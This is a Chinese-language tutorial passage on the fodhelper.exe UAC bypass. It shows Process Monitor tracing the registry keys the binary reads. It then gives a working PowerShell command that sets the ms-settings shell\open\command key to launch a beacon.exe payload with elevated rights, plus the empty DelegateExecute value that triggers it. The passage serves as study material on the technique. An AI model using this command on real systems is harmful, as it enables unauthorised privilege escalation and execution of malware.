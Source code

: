 使用 [Process Monitor](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) 工具筛进程 fodhelper.exe 的操作。

![Fodhelper-2.png](assets/1708583580-cdc7755a2f2384b5e2ea5f33fa3c4ec7.png)

查看发现会读取两条注册表。

```plaintext
HKCU\Software\Classes\ms-settings\Shell\Open\Command

HKCR\ms-settings\Shell\Open\Command\DelegateExecute
```

![Fodhelper-3.png](assets/1708583580-db913063d691980ff35ddf5cf11186fe.png)

fodhelper.exe 会读取注册表 HKCU\\Software\\Classes\\ms-settings\\shell\\open\\command 的值并执行。

PowerShell 新建注册表项 HKCU\\Software\\Classes\\ms-settings\\shell\\open\\command，并赋值 cmd.exe /c start C:\\Users\\123\\Desktop\\beacon.exe。

```powershell
New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value "cmd.exe /c start C:\Users\123\Desktop\beacon.exe" -Force
```

最后需要在注册表项 HKCU\\Software\\Classes\\ms-settings\\shell\\open\\command 内新建 String 类型属性 DelegateExecute，值怎么填随便，只要属性存在就行，这里采用默认值空。
